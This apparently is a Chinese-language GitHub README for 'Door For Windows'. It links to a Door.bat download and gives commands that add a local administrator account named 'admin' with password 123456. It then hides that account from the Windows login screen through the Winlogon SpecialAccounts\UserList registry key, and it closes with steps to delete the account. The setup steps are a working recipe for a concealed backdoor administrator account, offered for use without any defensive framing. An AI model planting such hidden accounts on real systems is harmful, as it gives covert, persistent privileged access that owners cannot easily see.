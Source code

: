 ## Door For Windows

https://github.com/dylanbai8/door_for_windows/releases/download/v2/Door.bat

## ▚ 设置

添加用户
```
管理员权限运行 cmd 打开命令行

net user admin 123456 /add
net localgroup administrators admin /add
```

隐藏用户
```
使用 win+r regedit 打开注册表
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

依次添加：
SpecialAccounts
UserList

得到：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList

右侧-右键-新建-DWORD(32位)值-填写用户名 admin
```

## ▚ 删除

删除用户
```
管理员权限运行 cmd 打开命令行
net user admin /del

使用 win+r regedit 打开注册表

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
删除 SpecialAccounts

[以下两项新用户登陆过才会有]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList
找到对应用户项-删除

打开资源管理器
C:\Users 删除对应的用户文件夹
```

